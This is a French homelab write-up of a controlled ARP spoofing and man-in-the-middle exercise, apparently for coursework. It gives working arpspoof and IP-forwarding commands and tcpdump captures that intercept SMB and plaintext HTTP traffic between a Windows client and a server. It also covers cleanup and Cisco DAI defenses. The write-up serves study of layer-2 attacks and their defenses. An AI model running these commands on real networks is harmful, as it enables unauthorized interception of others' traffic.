


# 🕵️ ARP Spoofing / MITM — Démonstration contrôlée

## Contexte

Démonstration réalisée exclusivement dans le homelab isolé.

### Périmètre

| Hôte | Adresse IP | Rôle |
|---|---|---|
| Kali | 192.168.100.30 | Machine Red Team / MITM |
| WIN11-CLIENT | 192.168.100.20 | Client victime |
| SRV25 | 192.168.100.10 | Serveur / cible |

Interface réseau Kali utilisée pour le lab : `eth1`.

MAC observée pour Kali sur `eth1` pendant le scénario :

```text
08:00:27:af:b5:47
```

> ⚠️ Ce scénario doit rester limité aux machines du homelab ou à une cible explicitement autorisée.

---

## 1. Objectif

Démontrer expérimentalement :

1. l'empoisonnement ARP ;
2. l'observation du trafic entre WIN11-CLIENT et SRV25 depuis Kali ;
3. l'observation d'un trafic HTTP non chiffré en clair ;
4. les limites de la démonstration.

Le scénario ne prétend pas démontrer la modification du contenu HTTP ni le déchiffrement d'un protocole chiffré.

---

## 2. Vérification du réseau Kali

Kali possédait deux interfaces :

```text
eth0 → 10.0.2.15/24
eth1 → 192.168.100.30/24
```

La communication avec WIN11 a été validée avec :

```bash
sudo arping -I eth1 192.168.100.20
```

Résultat observé :

```text
36 packets transmitted, 36 packets received
0% unanswered
```

Conclusion : Kali et WIN11 communiquent correctement sur le réseau du lab via `eth1`.

---

## 3. Activation du forwarding

Sur Kali :

```bash
sudo sysctl -w net.ipv4.ip_forward=1
```

Le forwarding permet à Kali de relayer les paquets entre les deux hôtes lorsque la machine est placée au milieu du chemin réseau.

---

## 4. ARP spoofing

Deux processus `arpspoof` ont été lancés.

### WIN11 → SRV25

```bash
sudo arpspoof -i eth1 -t 192.168.100.20 192.168.100.10
```

### SRV25 → WIN11

```bash
sudo arpspoof -i eth1 -t 192.168.100.10 192.168.100.20
```

Le double empoisonnement permet de placer Kali dans le chemin ARP des deux machines.

---

## 5. Preuve de l'empoisonnement ARP

Sur WIN11 :

```powershell
arp -a
```

Résultat observé :

```text
192.168.100.10 → 08-00-27-af-b5-47
192.168.100.30 → 08-00-27-af-b5-47
```

Les deux adresses IP étaient donc associées à la même adresse MAC : celle de Kali.

### Capture ARP

Une capture sur Kali a également montré des réponses répétées du type :

```text
ARP, Reply 192.168.100.10 is-at 08:00:27:af:b5:47
ARP, Reply 192.168.100.20 is-at 08:00:27:af:b5:47
```

### Conclusion

**ARP poisoning démontré expérimentalement.**

---

## 6. Vérification du trafic TCP/SMB

La connectivité WIN11 → SRV25 sur TCP/445 a été validée :

```powershell
Test-NetConnection 192.168.100.10 -Port 445
```

Résultat :

```text
TcpTestSucceeded : True
```

Une capture Kali avec :

```bash
sudo tcpdump -ni eth1 'host 192.168.100.20 and host 192.168.100.10 and port 445'
```

a montré notamment :

```text
192.168.100.20:60956 → 192.168.100.10:445
192.168.100.10:445 → 192.168.100.20:60956
```

avec la séquence TCP SYN / SYN-ACK / ACK puis des paquets TCP.

### Conclusion

Le trafic TCP entre WIN11 et SRV25 était observable depuis Kali pendant le scénario.

---

## 7. Démonstration applicative HTTP

Pour éviter d'utiliser des données réelles, un serveur HTTP de test a été créé sur SRV25 avec PowerShell.

### Serveur de test

Sur SRV25 :

```powershell
$l=New-Object System.Net.HttpListener;$l.Prefixes.Add("http://192.168.100.10:8080/");$l.Start();Write-Host "HTTP TEST :8080";while($true){$c=$l.GetContext();$b=[Text.Encoding]::UTF8.GetBytes("MESSAGE TEST SRV25");$c.Response.ContentType="text/plain";$c.Response.ContentLength64=$b.Length;$c.Response.StatusCode=200;$c.Response.OutputStream.Write($b,0,$b.Length);$c.Response.Close()}
```

Une règle firewall de laboratoire a été ajoutée sur SRV25 :

```powershell
New-NetFirewallRule -DisplayName "LAB-HTTP-8080" -Direction Inbound -Protocol TCP -LocalPort 8080 -Action Allow
```

### Test depuis WIN11

```powershell
curl http://192.168.100.10:8080
```

Résultat :

```text
StatusCode        : 200
StatusDescription : OK
Content           : MESSAGE TEST SRV25
```

---

## 8. Capture du contenu HTTP depuis Kali

Sur Kali :

```bash
sudo tcpdump -A -ni eth1 'tcp port 8080 and host 192.168.100.20 and host 192.168.100.10'
```

La capture a montré :

```text
192.168.100.20:55102 → 192.168.100.10:8080
HTTP/1.1 200 OK
Content-Length: 18
Content-Type: text/plain
Server: Microsoft-HTTPAPI/2.0

MESSAGE TEST SRV25
```

### Conclusion

Le contenu HTTP non chiffré était observable depuis Kali pendant le scénario MITM.

---

## 9. Résultats

| Contrôle | Résultat |
|---|---|
| Kali ↔ WIN11 sur eth1 | ✅ Validé |
| Forwarding IPv4 Kali | ✅ Activé |
| ARP poisoning WIN11 | ✅ Démontré |
| ARP poisoning SRV25 | ✅ Démontré |
| WIN11 → SRV25 TCP/445 | ✅ Validé |
| Observation du trafic TCP/445 | ✅ Démontrée |
| Serveur HTTP de test | ✅ Fonctionnel |
| Observation du HTTP en clair | ✅ Démontrée |
| Modification du contenu HTTP | ⚠️ Non démontrée |
| Déchiffrement HTTPS/SMB | ❌ Non démontré |

---

## 10. Comparaison avec Packet Tracer / DAI

Dans le scénario Cisco Packet Tracer, DAI était configuré et actif sur les VLAN 10, 20 et 50 avec validation :

```text
src-mac
dst-mac
ip
```

Cependant, les compteurs DAI sont restés à zéro :

```text
Dropped                 0
Source MAC Failures     0
Dest MAC Failures       0
IP Validation Failures  0
```

La tentative d'ARP spoofing n'a donc pas produit de violation exploitable dans Packet Tracer.

La démonstration avec Kali permet de compléter cette partie avec une expérience réalisée sur de vraies machines virtuelles du homelab.

---

## 11. Nettoyage après le TP

### Arrêter les deux processus arpspoof

Dans les terminaux Kali concernés :

```text
Ctrl+C
```

Ou :

```bash
sudo pkill arpspoof
```

### Désactiver le forwarding

```bash
sudo sysctl -w net.ipv4.ip_forward=0
```

### Vérifier la table ARP de WIN11

```powershell
arp -d *
arp -a
```

Puis générer à nouveau du trafic vers SRV25 pour reconstruire l'association ARP normale :

```powershell
Test-NetConnection 192.168.100.10 -Port 445
```

### Supprimer la règle firewall de test sur SRV25

```powershell
Remove-NetFirewallRule -DisplayName "LAB-HTTP-8080"
```

### Arrêter le serveur HTTP de test

Si le serveur HTTP tourne encore au premier plan :

```text
Ctrl+C
```

---

## 12. Points à retenir

- ARP ne fournit pas nativement d'authentification des réponses.
- Un attaquant présent sur le même réseau L2 peut tenter d'empoisonner les caches ARP.
- L'empoisonnement bidirectionnel permet de placer la machine attaquante dans le chemin des communications.
- Le trafic non chiffré peut être observé en clair.
- Le chiffrement applicatif, notamment HTTPS, change fortement ce qui peut être observé.
- Les mécanismes de défense L2 tels que DAI peuvent limiter ce type d'attaque lorsqu'ils sont correctement alimentés par des informations de confiance.
- Les résultats d'un simulateur doivent être distingués des résultats obtenus sur des machines virtuelles réelles.

---

## 13. Preuves disponibles

Les preuves principales du scénario sont :

1. table ARP de WIN11 montrant la MAC de Kali pour WIN11 et SRV25 ;
2. captures `tcpdump` des réponses ARP ;
3. test TCP/445 réussi ;
4. capture TCP entre WIN11 et SRV25 ;
5. réponse HTTP 200 de SRV25 ;
6. capture du contenu `MESSAGE TEST SRV25` depuis Kali.

> Aucun secret, mot de passe ou contenu sensible n'a été utilisé pour cette démonstration.


---

## 📸 Preuves visuelles

### Empoisonnement ARP



### Observation HTTP en clair


